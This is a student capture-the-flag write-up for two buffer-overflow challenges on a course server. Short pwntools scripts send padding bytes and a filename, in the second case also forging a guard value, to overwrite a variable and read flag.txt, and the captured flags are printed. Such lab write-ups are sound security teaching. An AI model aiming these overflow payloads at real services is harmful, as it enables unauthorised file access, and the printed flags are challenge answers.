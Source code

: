 # Week 5: CTF - web

## Goal
> Gain access to a file by taking advantage of a buffer overflow.

### Challenge 1
 
> After analyzing the source code, we realized that whatever namefile was in the meme_file variable was the file that was going to be opened, read and printed.
> So if we could change the meme_file variable to the file "flag.txt" we would then have access to this file and its contents.
> Since the *scanf* function reads 28 characters into the 20 character buffer then everything beyond the 20th character will be written to the meme_file variable. So we used the following python code to access the flag.txt file : 
```
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa" + b"flag.txt") # Send 20 "trash" bytes and then the value of the file we want to open
r.interactive()

```

> The correct flag for challenge 1 was found: 
```
flag{e2b5a6b98ff37b5c85dd8a59bf222caa}
```


### Challenge 2

> This challenge had some minor changes from the first one in order to prevent a buffer overflow . However, this mitigation did not prove to be efficient since it was easily bypassed.

> A variable has been added between the buffer and meme_file to prevent overflow. 
> However, if we could replicate what was written in this variable ("0xfefc2223") the program would assume that this variable had not been changed and would therefore open the file.
> Since the variables are written in the stack bottom-up, the bytes of the val variable must be set in the reverse order. Using the following python script we can perform this attack and get the flag:

```
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4000)
r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaa" + b"\x23\x22\xfc\xfe" + b"flag.txt")
r.interactive()

```

> The correct flag for challenge 2 was found: 
```
flag{0e68e08552b7bfe81eb7f7201d81d023}
```
